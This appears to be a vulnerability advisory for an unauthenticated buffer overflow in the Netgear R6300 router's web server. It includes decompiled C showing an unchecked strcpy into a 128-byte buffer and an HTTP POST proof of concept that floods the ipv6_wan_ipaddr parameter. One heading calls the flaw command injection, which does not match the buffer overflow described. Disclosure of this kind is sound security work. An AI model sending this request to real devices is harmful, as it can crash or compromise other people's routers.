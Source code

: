 # Buffer Overflow Vulnerability in `ipv6_wan_ipaddr`

1. Vulnerability Overview

| **Field**            | **Details**                                                  |
| -------------------- | ------------------------------------------------------------ |
| Affected Product     | Netgear R6300 Router                                         |
| Firmware Version     | V1.0.2.80_1.0.59                                             |
| Vulnerability Type   | **Buffer Overflow**                                          |
| Vulnerable Component | `httpd` (`IPv6FixCgiMain` → `acosNvramConfig_set` → `IPv6CgiGetParam`) |
| Prerequisites        | No authentication required; attacker must supply crafted input via web interface parameter `ipv6_wan_ipaddr` |

2. Exploitation Path

```c
int __fastcall IPv6FixCgiMain(char *a1, int a2)
{
  ...
  char v12[256]; // [sp+18h] [-100h] BYREF
  ...
  websGetVar(a1, "ipv6_wan_ipaddr", v12);
  if ( !acosNvramConfig_match("ipv6_wan_ipaddr", v12) )
  {
    acosNvramConfig_set("ipv6_wan_ipaddr", v12);
    v4 = 1;
  }
  ...
}

int __fastcall IPv6CgiGetParam(int a1, const char *a2, char *a3)
{
  ...
  char v32[128]; // [sp+7Eh] [-182h] BYREF
  ...
  memset(v32, 0, sizeof(v32));
  ...
  if ( !strcmp(a2, "ipv6_wan") )
  {
    v10 = (const char *)acosNvramConfig_get("ipv6_wan_ipaddr");
    strcpy(v32, v10);
    ...
}
```

3. **Vulnerable Binaries:** The vulnerability resides in the `httpd` binary.

4. 0-Day Command Injection Exploitation Path: In the `httpd` binary, the `IPv6FixCgiMain` function at line 6 calls `websGetVar(a1, "ipv6_wan_ipaddr", v12)` to receive input. Although a 255-byte length restriction is applied, no further validation is performed. The input is then stored via `acosNvramConfig_set("ipv6_wan_ipaddr", v12)` at line 9. Subsequently, the `IPv6CgiGetParam` function retrieves this value at line 24 using `v10 = (const char *)acosNvramConfig_get("ipv6_wan_ipaddr")`, and copies it into the destination buffer `v32` via `strcpy(v32, v10)` at line 25. Since the buffer `v32` has a size of only 128 bytes, this results in a buffer overflow vulnerability.

5. Proof of Concept (PoC) for Reproducing the Vulnerability

```http
POST /cgi-bin/IPv6FixCgi HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0
Accept: */*
Content-Type: application/x-www-form-urlencoded
Content-Length: 300
Connection: close

ipv6_wan_ipaddr=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```